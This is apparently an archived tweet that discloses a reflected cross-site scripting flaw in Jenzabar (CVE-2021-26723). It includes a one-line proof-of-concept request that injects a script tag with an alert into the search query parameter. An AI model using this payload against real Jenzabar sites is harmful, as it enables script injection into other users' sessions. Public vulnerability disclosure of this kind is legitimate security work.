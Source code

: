 
# 3XS0
**https://twitter.com/3XS0/status/1370458184914206725 _at 2021-03-12 19:34:27_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/cGM957RGCU
</blockquote>


<table><tr>